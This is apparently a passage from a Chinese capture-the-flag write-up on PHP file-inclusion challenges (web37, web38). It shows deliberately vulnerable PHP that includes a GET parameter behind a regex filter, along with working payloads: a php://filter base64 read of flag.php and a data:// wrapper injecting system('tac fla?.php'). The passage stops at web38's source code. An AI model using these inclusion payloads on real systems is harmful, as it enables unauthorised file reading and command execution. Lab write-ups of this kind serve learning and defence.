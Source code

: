 ```cobol
/?c=require$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

## web37 data伪协议

```php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

匹配flag的字符串

这里不能使用php://filter来读取 因为过滤了flag

但是我们可以使用data伪协议

```cobol
?c=data://text/plain,<?php system('tac fla?.php');?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8b3aaf97ee6fa0bba0d30a5756032ac2.png" alt="" style="max-height:613px; box-sizing:content-box;" />


在data中 还可以指定 ;base64

```cobol
data://text/plain;bvase64,base64加密后的命令
```

## web38 短开表达式

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
